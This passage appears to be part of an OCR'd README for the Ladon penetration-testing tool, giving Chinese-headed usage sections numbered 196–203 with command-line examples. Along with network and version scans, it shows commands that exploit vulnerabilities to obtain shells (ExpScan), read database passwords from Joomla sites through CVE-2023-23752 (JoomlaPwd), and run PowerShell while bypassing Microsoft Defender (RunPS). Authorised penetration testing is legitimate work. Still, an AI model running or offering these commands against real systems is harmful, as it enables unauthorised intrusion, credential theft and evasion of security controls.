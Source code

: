 ##### 196 InfoScan多个模块探测系统信息
```Bash
Ladon 192.168.1.8/24 InfoScan
Ladon 192.168.1.8 InfoScan
Ladon ip.txt InfoScan
```

##### 197 VulScan PocScan多个远程漏洞检测
```Bash
Ladon 192.168.1.8/24 VulScan
Ladon 192.168.1.8 PocScan
Ladon http://192.168.1.8 PocScan
```

##### 198 ExpScan多个漏洞利用GetShell
```Bash
Ladon 192.168.1.8/24 ExpScan
Ladon 192.168.1.8 ExpScan
Ladon http://192.168.1.8 ExpScan
```

##### 199 JoomlaPwd CVE-2023-23752 未授权网站数据库密码读取
```Bash
Ladon 192.168.1.8/24 JoomlaPwd
Ladon 192.168.1.8 JoomlaPwd
Ladon http://192.168.1.8 JoomlaPwd
Ladon url.txt JoomlaPwd
```

##### 200 AllScan 所有模块
```Bash
Ladon 192.168.1.8/24 AllScan
Ladon 192.168.1.8 AllScan
Ladon http://192.168.1.8 AllScan
```

##### 201 探测Citrix Gateway版本
```Bash
Ladon https://192.168.1.8 CitrixVer
Ladon 192.168.1.8/24 CitrixVer
Ladon url.txt CitrixVer
```

##### 202 探测Vmware Vcenter版本
```Bash
Ladon https://192.168.1.8 VmwareVer
Ladon 192.168.1.8/24 VmwareVer
Ladon url.txt VcenterVer
```

##### 203 绕过Defender执行PowerShell
```Bash
Ladon RunPS -f hello.ps1
Ladon RunPS -c "echo test"
Ladon RunPS bypass
Ladon RunPS default
```

